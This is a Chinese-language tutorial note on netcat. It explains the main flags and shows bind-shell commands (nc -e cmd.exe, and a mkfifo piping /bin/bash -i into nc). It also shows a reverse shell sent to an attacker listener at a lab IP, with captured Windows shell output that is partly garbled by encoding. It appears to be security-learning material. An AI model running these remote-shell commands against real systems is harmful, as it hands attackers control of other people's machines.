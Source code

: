 ## netcat使用

netcat 有很多不同的实现。

下面的链接可以下载到适用于windows的带-e参数的netcat程序

<https://eternallybored.org/misc/netcat/>



### 用到的参数

nc [参数] 主机 端口

-l  指定nc使用监听模式，而不是对指定的主机端口进行连接

-p 端口 指定源端口

-e 文件 指定在建立连接后，运行该文件并将输入输出定向到该文件（有的实现是-c）

-v 让nc提供更多的信息



### 例子



#### 将本机的0.0.0.0:9999绑定一个shell

**有-e参数的情况下**

`nc -lv 9999 -e cmd.exe`

**使用管道符和输入输出重定向来实现绑定(Linux)**

```shell
$ mkfifo /tmp/stdin
$ cat /tmp/stdin | /bin/bash -i 2>&1 | nc -l 0.0.0.0 9999 >/tmp/stdin
```

`mkfifo /tmp/stdin` 的作用是创建一个管道文件。管道文件里的数据读取后就会被清空

`| /bin/bash -i 2>&1` 的作用是将管道文件里的数据作为/bin/bash文件运行的时的输入，指定使用交互模式，并将错误信息stderr定向到stdout

#### 连接对方主机的shell

```shell
$ nc 192.168.247.21 9999
leaf@leaf-vm:/mnt/hgfs/workspace/security/pwn_code/how2heap/test_groud$ ls
ls
house_of_spirit.c
re
```

#### 反弹shell

**在有-e参数的情况下**

首先在攻击者的机器上监听一个端口

`nc -lv 0.0.0.0 7777`

然后在受害者的机器上连接攻击者，并将shell传递过去

`nc 192.168.247.21 7777 -e cmd.exe`

创建连接后，攻击者就会收到一个shell

```
$ nc -lv 0.0.0.0 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from [192.168.247.1] port 7777 [tcp/*] accepted (family 2, sport 8928)
Microsoft Windows [�汾 10.0.17134.799]
(c) 2018 Microsoft Corporation����������Ȩ����

C:\workspace\download\netcat-mingw>dir
dir
 ������ C �еľ��� Windows 10
 �������к��� D835-5B8C

 C:\workspace\download\netcat-mingw ��Ŀ¼

2019/05/27  17:48    <DIR>          .
2019/05/27  17:48    <DIR>          ..
2004/12/28  12:23            12,166 doexec.c
1996/07/09  17:01             7,283 generic.h
1996/11/06  23:40            22,784 getopt.c
1994/11/03  20:07             4,765 getopt.h
1998/02/06  16:50            61,780 hobbit.txt
2004/12/27  18:37            18,009 license.txt
2011/09/17  00:46               300 Makefile
2011/09/17  00:52            38,616 nc.exe
2011/09/17  00:52            45,272 nc64.exe
2011/09/17  00:44            69,850 netcat.c
2011/09/17  00:45             6,885 readme.txt
              11 ���ļ�        287,710 �ֽ�
               2 ��Ŀ¼ 26,625,261,568 �����ֽ�

C:\workspace\download\netcat-mingw>

```



### 参考

mkfifo 命令创建命名管道实现进程之间通信 <https://blog.csdn.net/orangleliu/article/details/49133199>